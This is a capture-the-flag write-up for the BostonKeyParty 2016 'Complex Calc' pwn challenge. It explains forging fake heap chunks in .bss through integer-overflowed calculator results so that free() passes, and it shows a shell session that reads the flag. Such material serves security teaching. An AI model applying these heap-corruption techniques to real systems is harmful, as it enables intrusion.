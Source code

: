 
## BostonKeyParty CTF 2016 - Complex Calc (Pwn 6pt)
##### 04/03 - 06/03/2015 (48hr)
___
### Description: 
we've fixed a tiny bug!

simplecalc.bostonkey.party 5500
___
### Solution
This code is identical with the simple calc. However the previous exploit doesn't work. We get 
segmentation fault upon free(). If we look at free(), there's no check if argument is NULL:
```assembly
.text:00000000004156D0 free            proc near ; CODE XREF: _i18n_number_rewrite+1EAp
.text:00000000004156D0                           ; _i18n_number_rewrite_0+1EAp ...
.text:00000000004156D0          mov     rax, cs:__free_hook
.text:00000000004156D7          test    rax, rax
.text:00000000004156DA          jnz     loc_41579A
.text:00000000004156E0          nop     dword ptr [rax]
.text:00000000004156E3          nop     word ptr [rax+rax+00h]
.text:00000000004156E9          mov     rax, [rdi-8]
.text:00000000004156ED          lea     rsi, [rdi-10h]
```
This means that ptr_10 must be a valid address pointing to the beginning of an allocated chunk on 
the heap:
```assembly
	.text:0000000000401383 ptr_10          = qword ptr -10h
```
This would be trivial is ASLR was disabled, or if we could leak an address from the heap. However,
both scenarios are false so we need another trick.

In order to solve the problem we have to see exactly why free() crashes and how slab allocator
works. If we see an allocated chunk in heap, there are 8 bytes before it (called chunk header)
which stores some metadata about the allocated region:
```
offset:	-16                    -8
		+----------------------+--------------------------+
		| previous chunk size  | Chunk size % 8 + 3 FLAGS |
	  0 +----------------------+--------------------------+
ptr -->	|                                                 |
		|                    User Data                    |
		|                                                 |
		+--------------------------------------------------
```
The minimum possible chunk size is 8 bytes, so we use the 3 LSBits as flags. If the LSBit is 
clear, we can find the previous chunk by using ptr - 16 as the previous chunk size. Slab
allocator keeps a linked list with all free chunks. Upon free() we must insert (and possibly
coallesce) the chunk in the free list.

If we somehow forge a fake chunk, we can make slab allocator believing that it's a valid chunk,
so it won't crash on free(). Remember our goal is to don't crash, not to really free some memory.

The only memory region that we can control and we know its address is in .bss. These are the
global variables used to store arguemnts for calculations. Thus we have to create a fake
chunk there and overwrite ptr_10 with an address within there.

Let's see the memory layout:
```assembly
.bss:00000000006C4A80             public add_1_6C4A80
.bss:00000000006C4A80 00 00 00 00 add_1_6C4A80 dd 0 	; DATA XREF: adds+13o
.bss:00000000006C4A80                                	; adds+5Er ...
.bss:00000000006C4A84 00 00 00 00 add_2_6C4A84 dd 0  	; DATA XREF: adds+40o
.bss:00000000006C4A84                               	; adds+69r ...
.....
.bss:00000000006C4AB4                                	; subs+69r ...
.bss:00000000006C4AB8 00 00 00 00 _sub_ans_6C4AB8 dd 0  ; DATA XREF: subs+98w
.bss:00000000006C4AB8                                  	; subs+9Er ...
.bss:00000000006C4ABC 00 00 00 00 align 20h
```

This is how we can forge our fake chunk: 
```
0x06C4A80: add_1    --> any value
0x06C4A84: add_2 	--> any value	(ignored, because LSbit is set)
0x06C4A88: add_res 	--> 0x21		(16B long, and LSbit is set)
0x06C4A8C: align	--> 0x00 		(0 by default; it must be 0)

0x06C4A90: div_1 	--> any value 	(the actual allocated chunk)
0x06C4A94: div_2	--> any value
0x06C4A98: div_ans 	--> any value
0x06C4A9C: align	--> any value

0x06C4AA0: mul_1 	--> any value	(next chunk header)
0x06C4AA4: mul_2 	--> any value	(ignored, because LSbit is set)
0x06C4AA8: mul_ans 	--> 0x21		(16B long, and LSbit is set)
0x06C4AAC: align	--> 0x00 		(0 by default; it must be 0)

0x06C4AB0: sub_1 	--> any value 	(the actual allocated chunk)
0x06C4AB4: sub_2 	--> any value
0x06C4AB8: sub_sub	--> any value
0x06C4ABC: align	--> any value
```
Now, we can have 2 valid chunks at .bss, so free() won't complain, because the header pointers
will be valid. Thus all we have to do, is to overwrite ptr_10 with 0x06C4A90 (which supposed to
be the address of the 1st fake chunk). Because the size of the chunk (0x21, will be valid).

The last challenge is how to set add_res and mul_ans to 0x21. Because input numbers must be 
> 0x27, we have to use some very large numbers that will overflow and the result will be
very small. So:
```
add_1   = 0xffffff80 
add_2   = 0xa1
add_res = 0x100000021 = 0x21

mul_1   = 0x80000001
mul_2   = 0x80000021
mul_ans = 0x4000001100000021 = 0x21
```
Now we can write our exploit and get the flag **BKPCTF{th3 l4st 1 2 3z}**

```
root@xrysa:~/ctf/bostonkeyparty# ./complex_calc_expl.py 
	[..... TRUNCATED FOR BREVITY .....]
	Options Menu: 
	 [1] Addition.
	 [2] Subtraction.
	 [3] Multiplication.
	 [4] Division.
	 [5] Save and Exit.
	=> whoami
		nobody
	ls -la
		total 1188
		drwxr-xr-x 2 root root   4096 Mar  5 03:37 .
		drwxr-xr-x 3 root root   4096 Mar  5 03:20 ..
		-rw-r--r-- 1 root root    220 Mar  5 03:20 .bash_logout
		-rw-r--r-- 1 root root   3637 Mar  5 03:20 .bashrc
		-rw-r--r-- 1 root root    675 Mar  5 03:20 .profile
		-rw-r--r-- 1 root root     24 Mar  5 03:37 key
		-rwxr-xr-x 1 root root     83 Mar  5 03:26 run.sh
		-rwxr-xr-x 1 root root 882266 Mar  5 03:25 simpleCalc_v2
		-rw-r--r-- 1 root root 302348 Mar  5 03:20 socat_1.7.2.3-1_amd64.deb
	cat key
		BKPCTF{th3 l4st 1 2 3z}
	exit
	*** Connection closed by remote host ***
```

___
